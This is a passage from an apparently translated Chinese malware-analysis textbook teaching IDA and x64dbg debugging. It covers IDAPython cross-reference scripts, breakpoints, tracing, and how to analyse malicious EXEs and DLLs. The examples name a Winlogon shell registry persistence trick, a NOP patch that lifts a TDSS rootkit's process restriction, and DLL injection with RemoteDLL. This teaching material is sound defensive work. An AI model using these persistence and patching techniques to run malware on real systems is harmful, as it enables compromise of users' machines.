确定CreateFileA函数是否存在的另一种方法是使用以下代码。idc.get_name_ea_simple()函数返回CreateFileA的虚拟地址。如果CreateFileA不存在，则返回值为-1（idaapi.BADADDR）：
```
import idc
import idautils
 ea = idc.get_name_ea_simple("CreateFileA")
if ea != idaapi.BADADDR:
    print hex(ea), idc.generate_disasm_line(ea,0)
else:
    print "Not Found"
```


##### 5.2.2 使用IDApython代码交叉引用CreateFile
确定了CreateFileA函数的引用之后，我们尝试确定CreateFileA的交叉关联（Xrefs to）；这将会返回给我们所有调用CreateFileA的地址。下面的脚本构建在前面的脚本之上，并且对CreateFileA函数的交叉引用：
```
import idc
import idautils
 ea = idc.get_name_ea_simple("CreateFileA")
if ea != idaapi.BADADDR:
    for ref in idautils.CodeRefsTo(ea, 1):
        print hex(ref), idc.generate_disasm_line(ref,0)
```
下面是运行上述脚本生成的输出。输出显示了调用CreateFileA API函数的所有指令：
```
0x401161   call  ds:CreateFileA
0x4011aa   call  ds:CreateFileA
0x4013fb   call  ds:CreateFileA
0x401c4d   call  ds:CreateFileA
0x401f2d   call  ds:CreateFileA
0x401fb2   call  ds:CreateFileA
```


#### 5.3 IDA插件
IDA插件极大的增强了IDA的功能，并且大多数开发用于IDA的第三方软件都是以插件的形式发布的。一个对恶意软件分析师和逆向工程时来说价值巨大的商业插件师Hex-Rays Decompiler(https://www.hex-rays.com/products/decompiler/)。这个插件能够把处理器代码反编译成人类刻可读的类似C相关的伪代码，从而更容易阅读代码，并可以加快分析速度。

可以在下面的地址找到有趣的插件https://www.hex-rays.com/contests/index.shtml Hex-Rays插件页面。你也可以在https://github.com/onethawt/idaplugins-list 上找到有用的IDA插件列表。


### 章节总结 
本章介绍了IDA Pro:它的特性，以及如何使用它来执行静态代码分析(反汇编)。在本章中，我们还讨论了一些与Windows API相关的概念。结合您从上一章中获得的知识，并利用IDA提供的特性，可以极大地增强您的逆向工程和恶意软件分析能力。尽管反汇编允许我们理解程序做什么，但大多数变量都不是硬编码的，只有在程序执行时才被填充。在下一章中，您将学习如何在调试器的帮助下以受控的方式执行恶意软件，您还将学习如何探索二进制文件的各个方面，而它是在调试器下执行的。


## 6. 调试恶意软件二进制文件
调试时一个通过受控方式执行恶意代码的技术。Debugger是一个程序，使你可以在更细颗粒度的级别上检查恶意代码。debugger提供了对恶意软件运行时行为的完全控制，并允许控制执行单个或多个指令，也可以选择功能执行程序的（而不是执行整个程序），同时研究恶意软件的每个行动。

在本章中，你将主要学习IDA Pro（商业反汇编/调试器）和x64dbg（开源x32/x64调试器）提供的调试特性。你将在本章了解这些调试器提供的特性，以及如何使用他们检查程序的运行时行为。根据可用资源的不同，可以自由选择这两个调试器中的一个活两个来调试恶意二进制文件。当调试恶意软件时，需要采取适当措施，因为您将在系统上运行恶意代码。在本章最后，还有如何使用.net反编译器/调试器dnSpy（https://github.com/0xd4d/dnSpy)来调试.net应用程序。

其他受欢迎的反汇编器/调试器包括radare2 (http://rada.re/r/index.html),调试工具的WinDbg部分为Windows (https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/), Ollydbg (http://www.ollydbg.de/version2.html),免疫调试器(https://www.immunityinc.com/products/debugger/),Hopper (https://www.hopperapp.com/)和Binary Ninja (https://binary.ninja/)。

### 1. 通用调试内容
在我们深入研究这些调试器（IDA Pro、x64dbg和DnSpy）提供的特性之前，有必要了解大多数调试器提供的一些常见特性。在本节中，您将主要看到通用的调试概念，在接下来的小节中，我们将重点介绍IDA Pro、x64dbg和dnSpy的基本特性。

#### 1.1 启动和附加到进程

调试通常选择要调试的程序。有两种方法调试程序：
（a）将调试器附加到一个正在运行的进程上，
（b）启动一个新的进程。当您将调试器附加到正在运行的进程时，你讲无法控制或者监视程序的初始操作，因为当你有机会附加到进程时，它的所有启动和初始化代码都已经执行了。当您将调试器附加到某个进程时，调试器将挂起（暂停）该进程，使您有机会在恢复进程之前检查进程的资源或设置断点。

另一方面，启动一个新进程允许你监视或调试流程采取的每个操作，您还将能够监视流程的初始操作。当你启动调试器时，原始二进制文件将以调试器的用户权限执行。当进程在调试器下启动时，执行将在程序的入口暂停。程序的入口点时将要执行的第一条指令的地址。在后面的小节中，将学习如何使用IDApro、x64dbg和dnspy启动并附加到进程。


> 程序的入口不一定是main或WinMain函数;在将控制转移到main或WinMain之前，初始化程序(启动程序)被执行。启动例程的目的是在将控制传递给主函数之前初始化程序环境。这个初始化被调试器指定为程序的入口点。

#### 1.2 控制进程执行

调试器使您能够在进程执行时控制/修改进程的行为。调试器提供的两个重要功能是:(a)控制执行的能力，(b)中断执行的能力(使用断点)。使用调试器，您可以在将控制权返回给调试器之前执行一个或多个指令(或选择函数)。在分析过程中，您将结合调试器的受控执行和中断(断点)特性来监视恶意软件的行为。在本节中，您将了解调试器提供的常用执行控制功能;在后面的章节中，您将学习如何在IDA Pro、x64dbg和dnSpy中使用这些特性。

下面是调试器提供的一些常见的执行控制选项:

* 继续（运行）。 这将执行所有的指令，直到达到一个断点或发生一个异常。当你把一个恶意软件加载到调试器中，并在没有设置断点的情况下使用继续（运行）选项时，它将执行所有的指令而不给你任何控制权；所以，你通常将这个选项和断点一起使用，在断点位置中断程序。

* 步入和跨步。 使用Step into和Step over，你可以执行一条指令。在执行完单条指令后，调试器停止，给你一个机会检查进程的资源。当您执行一条调用函数的指令时，步入和跨步的区别就出现了。例如，在下面的代码中，在➊，有一个对函数sub_401000的调用。当你对这条指令使用step into选项时，调试器将在函数的开始处（地址为0x401000）停止，而当你使用step over时，整个函数将被执行，调试器将在下一条指令➋（即地址为0x00401018）暂停。你通常会使用step into来进入一个函数内部，以了解它的内部工作原理。当你已经知道一个函数的作用（例如在API函数中）并希望跳过它时，就会使用Step over。

```
.text:00401010     push  ebp
.text:00401011     mov   ebp, esp
.text:00401013     call  sub_401000  ➊
.text:00401018     xor   eax,eax  ➋
```

* Execute till Return（运行至返回）。 这个选项允许你执行当前函数中的所有指令，直到它返回。如果你不小心进入了一个函数（或进入了一个不感兴趣的函数），并希望从里面出来，这就很有用。在一个函数中使用这个选项会把你带到函数的末端（ret或retn），之后你可以使用step into或step over选项返回到调用的函数。
* Run to cursor 运行到光标（运行到选择）。 这允许你执行指令直到当前的光标位置，或者直到到达所选指令。

#### 1.3 用断点中断程序

断点是调试器的一项功能，它允许你在程序中一个非常具体的位置中断程序的执行。断点可以用来暂停某条指令的执行，或者当程序调用某个函数/API函数时，或者当程序从某个内存地址读、写或执行时。你可以在一个程序中设置多个断点，当到达任何一个断点时，程序的执行将被中断。一旦达到一个断点，就有可能监测/修改程序的各个方面。调试器通常允许你设置不同类型的中断点。

* 软件断点。 默认情况下，调试器会使用软件断点。软件断点的实现是用一条软件断点指令替换断点地址的指令，如int 3指令（操作码为0xCC）。当软件断点指令（如int 3）被执行时，控制权被转移到调试器上，调试器正在调试被中断的进程。使用软件断点的好处是，你可以设置无限数量的断点。缺点是，恶意软件可以寻找断点指令（int 3），并修改它来改变所附调试器的正常操作。
* 硬件断点。CPU，如x86，通过使用CPU的调试寄存器DR0-DR7，支持硬件断点。你可以使用DR0-DR3设置最多四个硬件断点；其他剩余的调试寄存器用于指定每个断点的附加条件。在硬件断点的情况下，没有指令被替换，但是CPU会根据调试寄存器中的数值决定程序是否应该被中断。
* 内存断点。 这些断点允许你在一条指令访问（读出或写入）内存时暂停执行，而不是暂停执行。如果你想知道某条内存何时被访问（读或写），并想知道哪条指令访问了它，这就很有用。例如，如果你在内存中发现一个有趣的字符串或数据，你可以在该地址上设置一个内存断点，以确定在什么情况下访问该内存。条件性断点。 使用条件性断点，您可以指定必须满足的条件来触发断点。如果达到了条件性断点但条件没有得到满足，调试器会自动恢复程序的执行。条件性断点不是指令的特性，也不是CPU的特性，而是调试器提供的一种功能。因此，您可以为软件和硬件断点指定条件。当条件断点被设置后，调试器的责任是评估条件表达式，并确定程序是否需要中断。

#### 1.4 追踪程序的执行

追踪是一种调试功能，它允许你在进程执行时记录（日志）特定的事件。追踪给你提供二进制文件的详细执行信息。在后面的章节中，你将了解IDA和x64dbg所提供的不同类型的跟踪功能。

### 2. 使用x64dbg调试二进制文件

x64dbg（https://x64dbg.com）是一个开源的调试器。你可以使用x64dbg来调试32位和64位应用程序。它有一个易于使用的GUI，并提供各种调试功能（https://x64dbg.com/#features）。在本节中，你将看到x64dbg提供的一些调试功能，以及如何使用它来调试一个恶意的二进制文件。

#### 2.1 在x64dbg中启动一个新进程

在x64dbg中，要加载一个可执行文件，选择文件|打开，并浏览到你想调试的文件；这将启动该进程，调试器将在系统断点、TLS回调或程序入口点函数处暂停，这取决于配置设置。你可以通过选择选项|首选项|事件来访问设置对话框。默认的设置对话框显示如下，可执行文件被加载时的默认设置。调试器首先在系统函数中中断（因为系统断点```*```选项被选中）。接下来，在你运行调试器后，它将在TLS回调函数处暂停，如果存在的话（因为TLS回调```*```选项被选中）。这有时是有用的，因为一些反调试器的技巧包含TLS条目，允许恶意软件在主程序运行前执行代码。如果你进一步执行该程序，执行会在程序的入口处暂停。



> 编辑百度：TLS回调函数是指，每当创建/终止进程的线程时会自动调用执行的函数。创建的主线程也会自动调用回调函数，且其调用执行先于EP代码。

如果你想让执行直接在程序的入口处暂停，那么请取消勾选```system Breakpoint*```(系统断点)和```TLS Callbacks*```(TLS回调)选项（这种配置对大多数恶意软件程序来说应该是很好的，除非恶意软件使用反调试技巧）。要保存配置设置，只需点击保存按钮。有了这个配置，当可执行文件被加载时，进程就会开始，并在程序的进入点暂停执行，如图所示。



#### 2.2 附属于一个现有的进程

要在x64dbg中附加到一个现有的进程，选择文件|附加（或Alt + A）；这将出现一个显示运行进程的对话框，如下所示。选择你想调试的进程，然后点击附加按钮。当调试器被附加时，进程被暂停，给你时间设置断点和检查进程的资源。当您关闭调试器时，附加的进程将终止。如果您不希望所连接的进程终止，您可以通过选择文件|分离（Ctrl + Alt + F2）来分离一个进程；这可以确保在您关闭调试器时，所连接的进程不会被终止。



> 有时，当您尝试将调试器附加到一个进程时，您会发现并非所有的进程都列在对话框中。在这种情况下，请确保你是以管理员身份运行调试器；你需要通过选择 "选项"|"偏好"，并在 "引擎 "选项卡中勾选 "启用调试权限"，来启用调试权限设置。


#### 2.3 x64dbg调试器接口
当你在x64dbg中加载一个程序时，你会看到一个调试器显示屏，如下图所示。调试器显示包含多个标签；每个标签显示不同的窗口。每个窗口都包含关于被调试二进制文件的不同信息。



反汇编窗口（CPU窗口）。它显示了被调试程序的所有指令的反汇编情况。这个窗口以线性方式显示反汇编，并与指令指针寄存器（eip或rip）的当前值同步。这个窗口的左边部分显示一个箭头，表示程序的非线性流程（如分支或循环）。你可以通过按G热键来显示控制流图。控制图显示如下；条件性跳转使用绿色和红色箭头。绿色箭头表示如果条件为真将进行跳跃，红色箭头表示不进行跳跃。蓝色箭头用于无条件跳转，向上（向后）的蓝色箭头表示一个循环。



寄存器窗口。 这个窗口显示CPU寄存器的当前状态。通过双击寄存器并输入一个新的数值，可以修改寄存器中的数值（你也可以右击并修改寄存器的数值为零或增加/减少寄存器的数值）。你可以通过双击标志位的值来切换标志位的开或关。你不能改变指令指针（eip或rip）的值。当你调试程序时，寄存器的值会发生变化；调试器会用红色突出显示寄存器的值，以表示自上一条指令以来的变化。

堆栈窗口。 堆栈视图显示进程的运行时堆栈的数据内容。在恶意软件分析过程中，你通常会在调用一个函数之前检查堆栈，以确定传递给函数的参数数量和函数参数的类型（如整数或字符指针）。

转储窗口。 它显示内存的标准十六进制转储。你可以使用转储窗口来检查被调试进程中任何有效内存地址的内容。例如，如果一个堆栈位置、寄存器或指令包含一个有效的内存位置，要检查该内存位置，右击该地址并选择在转储中关注选项。

内存地图窗口。 你可以点击Memory Map标签来显示Memory Map窗口的内容。这提供了进程内存的布局，并为你提供了进程中分配的内存段的细节。它是查看可执行文件及其部分在内存中的加载位置的一个好方法。这个窗口还包含关于进程中的DLLs及其在内存中的部分的信息。你可以双击任何条目来重新定位显示到相应的内存位置。



符号窗口。 你可以点击符号标签来显示符号窗口的内容。左边窗格显示加载的模块（可执行文件及其DLLs）的列表；点击一个模块条目将在右边窗格中显示其导入和导出函数，如下所示。这个窗口对于确定导入和导出函数在内存中的位置非常有用。




引用窗口References Window。 这个窗口显示对API调用的参考。点击引用标签，默认情况下不会显示API的引用。要填充这个窗口，在反汇编（CPU）窗口的任何地方（加载了可执行文件）点击右键，然后选择搜索|当前模块|中间调用；这将在参考窗口中填充程序中所有API调用的参考。下面的截图显示了对多个API函数的引用；第一个条目告诉你，在地址0x00401C4D处，指令调用了CreateFileA API（由Kernel32.dll导出）。双击该条目将带你到相应的地址（在这种情况下，0x00401C4D）。你也可以在这个地址设置一个断点；一旦断点被击中，你可以检查传递给CreateFileA函数的参数。

手柄窗口Handles Window。 你可以点击 "手柄 "选项卡，弹出手柄窗口；要显示内容，在手柄窗口内点击右键，选择 "刷新"（或F5）。这将显示所有打开的句柄的详细信息。在上一章中，当我们讨论Windows API时，你了解到进程可以打开一个对象（如文件、注册表等）的句柄，这些句柄可以传递给函数，如WriteFile，以执行后续操作。当你在检查API时，这些句柄很有用，比如WriteFile，它将告诉你与句柄相关的对象。例如，在调试一个恶意软件样本时，确定WriteFile API调用接受的句柄值为0x50。 检查句柄窗口显示，句柄值0x50与文件ka4a8213.log有关，如图所示。



线程窗口Threads Window。这显示了当前进程中的线程列表。你可以在这个窗口上点击右键，暂停一个/多个线程或恢复一个暂停的线程。



#### 2.4 使用x64dbg控制进程执行 

在第1.2节，控制进程执行，我们研究了调试器提供的不同执行控制功能。下表概述了常见的执行选项以及如何在x64dbg中访问这些选项。

|功能 |快捷键 |Menu|
|--|---|---|
| Run |F9| Debugger \|Run|
|Step into步进 |F7| Debugger \| Step into |
|Step over步过| F8 |Debugger \| Step over |
|Run until selection步进直到满足条件| F4 |Debugger \| Run until selection|

#### 2.5 在x64dbg中设置断点
在x64dbg中，您可以通过导航到您希望程序暂停的地址并按下F2键（或右键单击并选择断点|切换）来设置一个软件断点。要设置硬件断点，可以在你想设置断点的位置上点击右键，选择断点|执行时设置硬件。

你也可以使用硬件断点在写或读/写（访问）一个内存位置时断点。要在内存访问中设置硬件断点，在转储窗格中，右击所需的地址，选择断点|硬件，访问，然后选择适当的数据类型（如字节、字、字或q字），如下面的截图所示。以同样的方式，你可以通过选择Breakpoint | Hardware, Write选项来设置内存写入时的硬件断点。

除了硬件内存断点外，你也可以用同样的方式设置内存断点。要做到这一点，在转储窗格中，右击所需的地址，选择断点|内存，访问（用于内存访问）或断点|内存，写入（用于内存写入）。

要查看所有的活动断点，只需点击断点标签；这将在断点窗口中列出所有的软件、硬件和内存断点。您也可以在断点窗口内的任何指令上点击右键，删除一个或所有的断点。




关于x64dbg中可用选项的更多信息，请参考x64dbg在线文档：http://x64dbg.readthedocs.io/en/latest/index.html。
你也可以在x64dbg界面上按F1键访问x64dbg帮助手册。

#### 2.6 调试32位恶意软件

有了对调试功能的了解，让我们来看看调试如何帮助我们了解恶意软件的行为。考虑一个恶意软件样本的代码摘录，其中恶意软件调用CreateFileA函数来创建一个文件。为了确定它所创建的文件的名称，你可以在调用CreateFileA函数时设置一个断点，并执行程序直到它到达断点。当它到达断点时（也就是在调用CreateFileA之前），该函数的所有参数将被推到堆栈中；然后我们可以检查堆栈中的第一个参数，以确定文件的名称。在下面的截图中，当执行在断点处暂停时，x64dbg会在指令旁边和堆栈上的参数旁边添加一个注释（如果是字符串），以表明正在传递给函数的参数。从截图中可以看出，该恶意软件在%Appdata%\Microsoft目录下创建了一个可执行文件winlogdate.exe。你也可以通过右击堆栈窗口中的第一个参数，并选择follow DWORD in dump选项来获得这些信息，该选项在十六进制窗口中显示内容。



在创建可执行文件后，恶意软件将CreateFile返回的句柄值（0x54）作为第一个参数传递给WriteFile，并写入可执行内容（作为第二个参数传递），如这里所示。



让我们假设你不知道哪个对象与句柄 0x54 相关联，可能是因为你直接在 WriteFile 上设置了一个断点，而最初没有在 CreateFile 上设置一个断点。要确定与句柄值相关联的对象，你可以在句柄窗口中查找它。在本例中，作为WriteFile的第一个参数传递的句柄值0x54，与winlogdate.exe相关，如图所示。



#### 2.7 调试64位恶意软件

你将使用同样的技术来调试一个64位的恶意软件；不同的是，你将处理扩展寄存器、64位内存地址/指针，以及稍微不同的调用惯例。如果你还记得（从第4章，汇编语言和反汇编入门），一个64位代码使用FASTCALL调用惯例，并在寄存器（rcx、rdx、r8和r9）中向函数传递前四个参数，其余的参数则放在堆栈中。在调试对函数/API的调用时，根据你要检查的参数，你将不得不检查寄存器或堆栈。之前提到的调用惯例适用于编译器生成的代码。攻击者用汇编语言编写的代码不需要遵循这些规则；因此，代码可以表现出不寻常的行为。当你遇到非编译器生成的代码时，可能需要对该代码进行进一步调查。

在调试64位恶意软件之前，让我们尝试用下面这个微不足道的C程序来理解64位二进制文件的行为，这个程序是用微软Visual C/C++编译器为64位平台编译的：

```
int main()
{
  printf("%d%d%d%d%s%s", 1, 2, 3, 4, "this", "is", "test") ;
  return 0;
} 
```

在前面的程序中，printf函数需要8个参数；这个程序在x64dbg中被编译和打开，并在printf函数处设置了一个断点。下面的截图显示了该程序，它在调用printf函数之前暂停了。在寄存器窗口，你可以看到前四个参数被放在rcx、rdx、r8和r9寄存器中。当程序调用一个函数时，该函数在堆栈上保留了0x20（32字节）的空间（可容纳四项，每项8字节大小）；这是为了确保被调用的函数有必要的空间，如果它需要保存寄存器参数（rcx、rdx、r8和r9）。这就是接下来的四个参数（第5、6、7、8个参数）被放在堆栈中的原因，从第五项（rsp+0x20）开始。我们向你展示这个例子是为了让你了解如何在堆栈中寻找参数。





在32位函数的情况下，堆栈随着参数的推入而增长，当项目被弹出时则缩小。在64位函数中，堆栈空间是在函数开始时分配的，直到函数结束时才会改变。分配的堆栈空间用于存储局部变量和函数参数。在前面的截图中，注意第一条指令sub rsp,48是如何在堆栈上分配0x48（72）字节的空间的，之后在函数中间没有分配堆栈空间；另外，没有使用push和pop指令，而是使用mov指令将第5、6、7和8个参数放在堆栈上（在前面的截图中强调）。由于缺少push和pop指令，因此很难确定函数所接受的参数数量，也很难说内存地址是作为局部变量还是作为函数的参数。另一个挑战是，如果数值在函数调用前被移入寄存器rcx和rdx，就很难说它们是传递给函数的参数，还是因为其他原因被移入寄存器。

尽管对64位二进制文件进行逆向工程存在挑战，但你分析API调用应该不会有太大困难，因为API文档告诉你函数参数的数量、参数的数据类型，以及它们返回的数据类型。一旦你知道在哪里可以找到函数参数和返回值，你就可以在API调用处设置断点，检查其参数以了解恶意软件的功能。

 让我们看看一个64位恶意软件样本的例子，它调用RegSetValueEx来设置注册表中的一些值。在下面的截图中，断点是在调用RegSetValueEx之前触发的。您将需要查看寄存器和堆栈窗口中的值（如前所述），以检查传递给函数的参数；这将帮助您确定恶意软件设置的注册表值。在x64dbg中，快速获得函数参数摘要的最简单方法是查看默认窗口（在寄存器窗口下方），在下面的截图中突出显示。你可以在默认窗口中设置一个值来显示参数的数量。在下面的截图中，该值被设置为6，因为从API文档（https://msdn.microsoft.com/en-us/library/windows/desktop/ms724923(v=vs.85).aspx）中，你可以知道RegSetValueEx API需要6个参数。



第一个参数值，0x2c，是打开注册表键的句柄。恶意软件可以通过调用RegCreateKey或RegOpenKey API来打开注册表键的句柄。从句柄窗口，你可以知道句柄值0x2c与下面截图中显示的注册表键有关。从句柄信息，以及通过检查第一、第二和第五个参数，你可以知道恶意软件修改了注册表键，HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Winlogon\shell，并添加了一个条目，"explorer.exe,logoninit.exe"。 在一个干净的系统中，这个注册表键指向explorer.exe（默认的Windows shell）。当系统启动时，Userinit.exe进程使用这个值来启动Windows外壳（explorer.exe）。通过添加logoninit.exe和explorer.exe，恶意软件确保logoninit.exe也被Userinit.exe启动；这是恶意软件使用的另一种类型的持久化机制。



在这一点上，你应该对如何调试一个恶意可执行文件以了解其功能有了一定的了解。在下一节中，你将学习如何调试一个恶意的DLL以确定其行为。

#### 2.8 使用x64dbg调试一个恶意的DLL

在第3章 "动态分析 "中，你学到了执行DLL的技术来进行动态分析。在本节中，你将使用你在第3章动态分析中学到的一些概念，使用x64dbg调试DLL。如果你还不熟悉DLL的动态分析，强烈建议你在进一步阅读第3章动态分析中的第6节，动态链接库（DLL）分析。

要调试DLL，启动x64dbg（最好有管理员权限）并加载DLL（通过文件|打开）。当你加载DLL时，x64dbg将一个可执行文件（名为DLLLoader32_xxxx.exe，其中xxxx是随机的十六进制字符）放入你的DLL所在的同一目录；这个可执行文件作为一个通用的主机进程，它将被用来执行你的DLL（与rundll32.exe的方式相同）。在你加载DLL后，调试器可能会在系统断点、TLS回调或DLL入口点函数处暂停，这取决于配置设置（在前面的x64dbg中启动新进程部分提到）。如果不勾选系统断点*和TLS回调*选项，在加载DLL时，执行将暂停在DLL的入口点，如下面的截图所示。现在，你可以像其他程序一样对DLL进行调试。



##### 2.8.1 在x64dbg中使用rundll32.exe来调试DLL

另一个有效的方法是使用 rundll32.exe 来调试 DLL（假设你想调试一个名为 rasaut.dll 的恶意软件 DLL）。要做到这一点，首先从system32目录下加载rundll32.exe（通过文件|打开）到调试器，这将使调试器在系统断点或rundll32.exe的入口点暂停（取决于前面提到的设置）。然后，选择Debug | Change Command Line，指定rundll32.exe的命令行参数（指定DLL的完整路径和导出函数），如下所示，然后点击OK。



接下来，选择 "断点 "选项卡，在 "断点 "窗口内点击右键，选择 "添加DLL断点 "选项，这时会弹出一个对话窗口，提示你输入模块名称。输入DLL名称（在本例中是rasaut.dll），如下所示。这将告诉调试器在DLL（rasaut.dll）被加载时进行断点。配置完这些设置后，关闭调试器。



接下来，重新打开调试器，再次加载rundll32.exe；当你再次加载它时，之前的命令行设置仍将保持不变。现在，选择调试|运行（F9），直到你在DLL的入口处中断（你可能需要多次点击运行（F9），直到你到达DLL的入口点）。你可以通过查看断点地址旁边的注释来跟踪每次运行（F9）时执行暂停的位置。你也可以在eip寄存器旁边找到同样的注释。在下面的截图中，你可以看到执行在rasaut.dll的入口处暂停了。在这一点上，你可以像其他程序一样对DLL进行调试。你也可以在DLL导出的任何函数上设置断点。你可以通过使用符号窗口找到导出的函数；在你找到所需的导出函数后函数，双击它（这将带你到反汇编窗口中的导出函数的代码）。然后，在所需的地址设置一个断点。



##### 2.8.2 调试一个特定进程中的DLL

有时，你可能想调试一个只在特定进程中运行的DLL（如explorer.exe）。这个过程与上一节所述的过程类似。首先，使用x64dbg启动进程或附加到所需的主机进程；这将暂停调试器。通过选择Debug | Run (F9)允许进程运行。接下来，选择 "断点 "选项卡，在 "断点 "窗口内点击右键，选择 "添加DLL断点 "选项，这时会出现一个对话窗口，提示您输入模块名称。输入DLL名称（如上一节所述）；这将告诉调试器在加载DLL时进行中断。现在，你需要将DLL注入到主机进程中。这可以通过像RemoteDLL（https://securityxploded.com/remotedll.php）这样的工具来完成。当DLL被加载时，调试器会在ntdll.dll的某个地方暂停；只要点击运行（F9），直到你到达注入的DLL的入口点（你可能要运行多次才能到达入口点）。你可以通过查看断点地址旁边的注释或eip寄存器旁边的注释来跟踪每次点击运行（F9）时执行暂停的位置，如上节所述。

#### 2.9 跟踪x64dbg的执行情况

跟踪允许你在进程执行时记录事件。x64dbg支持跟踪进入和跟踪超过条件的跟踪选项。你可以通过Trace | Trace into（Ctrl+Alt+F7）和Trace | Trace over（Ctrl+Alt+F8）访问这些选项。在Trace into中，调试器在内部通过设置步进断点来跟踪程序，直到满足条件或达到最大步数。在追踪结束时，调试器通过设置跨步断点来追踪程序，直到条件得到满足或达到最大步数。下面的截图显示了 "追踪到 "对话框（在 "追踪到 "对话框中也提供了同样的选项）。要跟踪日志，至少需要指定日志文本和日志文件的完整路径（通过日志文件按钮），跟踪事件将被重定向。




下面包括一些字段的简要描述。

* 断点条件。 你可以在这个字段中指定一个条件。这个字段的默认值是0（假）。为了指定条件，你需要指定任何有效的表达式（http://x64dbg.readthedocs.io/en/latest/introduction/Expressions.html），其评估值为非零值（真）。评价为非零值的表达式被认为是真的，从而触发断点。调试器通过评估所提供的表达式继续跟踪，当指定的条件得到满足时停止。如果条件不满足，则继续跟踪，直到达到最大跟踪次数。
* 日志文本。 此字段用于指定在日志文件中记录跟踪事件的格式。可以在这个字段中使用的有效格式在http://help.x64dbg.com/en/latest/introduction/Formatting.html。
* 日志条件。 这个字段的默认值是1。你可以选择提供一个日志条件，告诉调试器只有在满足特定条件时才记录事件。日志条件需要是一个有效的表达式（http://x64dbg.readthedocs.io/en/latest/introduction/Expressions.html）。
* 最大跟踪计数。 这个字段指定了在调试器放弃之前追踪的最大步骤数。默认值被设置为50000，你可以根据需要增加或减少这个值。
* 日志文件按钮。 你可以用这个按钮来指定保存跟踪日志的日志文件的完整路径。

x64dbg没有特定的指令跟踪和函数跟踪功能，但可以使用trace into和trace over选项来执行指令跟踪和函数跟踪。你可以通过添加断点来控制追踪。在下面的截图中，eip指向第1条指令，并在第5条指令处设置了一个断点。当追踪开始时，调试器从第一条指令开始追踪，并在断点处暂停。如果没有断点，则继续跟踪，直到程序结束，或达到最大跟踪次数。如果你想追踪函数内部的指令，你可以选择追踪到，或者追踪到函数的上方，追踪其余的指令。



##### 2.9.1 指令追踪 

要对前一个程序进行指令追踪（例如，追踪到），可以在追踪到对话框中使用以下设置。如前所述，为了在日志文件中捕获跟踪事件，你需要指定日志文件的完整路径和日志文本。


前面截图中的Log Text值（0x{p:cip} {i:cip}）是字符串格式的，它指定调试器记录所有被跟踪指令的地址和反汇编情况。下面是该程序的跟踪记录。由于选择了跟踪到选项，函数内部的指令（0xdf1000）也被捕获（在下面的代码中突出显示）。指令追踪对于快速了解程序的执行流程非常有用。

```
0x00DF1011      mov ebp, esp
0x00DF1013      call 0xdf1000
0x00DF1000      push ebp
0x00DF1001      mov ebp, esp
0x00DF1003      pop ebp
0x00DF1004      ret
0x00DF1018      xor eax, eax
0x00DF101A      pop ebp
```

##### 2.9.2 函数跟踪

为了演示函数跟踪，请考虑下面截图中的程序。在这个程序中，eip指向第一条指令，断点设置在第五条指令（在这一点上停止追踪），第三条指令在0x311020处调用一个函数。我们可以使用函数追踪来确定该函数（0x311020）调用了哪些其他函数。



为了进行函数追踪（本例中选择了Trace into），采用了以下设置。这类似于指令跟踪，除了在日志条件字段中，指定一个表达式，告诉调试器只记录函数调用。



以下是日志文件中捕获的事件，是函数跟踪的结果。从下面的事件中，你可以知道函数0x311020在0x311000和0x311010调用了另外两个函数。
```
0x00311033 call 0x311020
0x00311023 call 0x311000
0x00311028 call 0x311010 
```

在前面的例子中，断点是用来控制跟踪的。当调试器到达断点时，执行被暂停，直到断点的指令/功能被记录下来。当你恢复调试器时，其余的指令会被执行，但不会被记录下来。

#### 2.10 在x64dbg中打补丁 
在进行恶意软件分析时，您可能想修改二进制文件以改变其功能或颠倒其逻辑以满足您的需要。x64dbg允许您修改内存中的数据或程序的指令。要修改内存中的数据，请导航到内存地址并选择你要修改的字节序列，然后右击并选择二进制|编辑（Ctrl + E），这将会出现一个对话框（如下所示），你可以用它来修改数据为ASCII、UNICODE或十六进制字节序列。



下面的截图显示了TDSS rootkit DLL的代码摘录（这也是上一章中使用IDA修补二进制文件一节中涉及的二进制文件）。如果你还记得，这个DLL使用字符串比较来执行检查，以确保它是在spoolsv.exe进程下运行。如果字符串比较失败（也就是说，如果DLL不是在spoolsv.exe下运行），那么代码就会跳到函数的末尾，并从函数中返回，而不会表现出恶意行为。假设你想让这个二进制文件在任何进程下运行（不仅仅是spoolsv.exe）。你可以用一条nop指令来修改条件跳转指令（JNE tdss.10001Cf9），以取消进程限制。要做到这一点，在条件性跳转指令上点击右键，选择组装，会出现如下所示的对话框，利用它可以输入指令。注意，在截图中，填充NOP的选项是被选中的，以确保指令的排列是正确的。



在你修改了内存或指令中的数据后，你可以通过选择文件|补丁文件将补丁应用到文件中，这时会出现一个补丁对话框，显示对二进制文件的所有修改。一旦你对所做的修改感到满意，点击补丁文件并保存该文件。



### 3. 使用IDA调试二进制文件

在上一章中，我们研究了IDA Pro的反汇编功能。在本章中，你将了解IDA的调试功能。IDA的商业版本可以调试32位和64位的应用程序，而演示版只允许你调试32位的Windows二进制文件。在本节中，你将看到IDA专业版提供的一些调试功能，并将学习如何使用它来调试一个恶意的二进制文件。  

#### 3.1 在IDA中启动一个新进程 
有不同的方法来启动一个新的进程；一种方法是直接启动调试器，而不需要最初加载程序。要做到这一点，启动IDA（不加载可执行文件），然后选择调试器|运行|本地Windows调试器；这将出现一个对话框，你可以选择要调试的文件。如果该可执行文件需要任何参数，你可以在参数栏中指定它们。这种方法将启动一个新的进程，调试器将在程序的进入点暂停执行。





启动进程的第二种方法是首先在IDA中加载可执行文件（执行初始分析并显示反汇编的输出）。首先，通过调试器|选择调试器（或F9）选择正确的调试器；然后，你可以将光标放在第一条指令（或你希望执行暂停的指令）上，选择调试器|运行到光标（或F4）。这将启动一个新的进程，并将执行到当前光标位置（在这种情况下，断点会自动设置在当前光标位置）。

#### 3.2 使用IDA附加到一个现有的程序上

你附加到一个进程的方式取决于该程序是否已经加载。当一个程序还没有加载时，选择调试器|附加|本地Windows调试器。这将列出所有运行中的进程。只需选择要附加的进程。附加后，进程将立即暂停，让你有机会检查进程的资源并设置断点，然后再恢复进程的执行。在这种方法中，IDA将不能对二进制文件进行最初的自动分析，因为IDA的加载器将没有机会加载可执行图像。



另一种附加到进程的方法是在附加到一个进程之前将与该进程相关的可执行文件加载到IDA。要做到这一点，使用IDA加载相关的可执行文件；这允许IDA执行其初始分析。然后，选择调试器|选择调试器，勾选本地Win32调试器（或本地Windows调试器）选项，并点击确定。然后，再次选择调试器|附加到进程，并选择要附加调试器的进程。

#### 3.3 IDA的调试器界面 
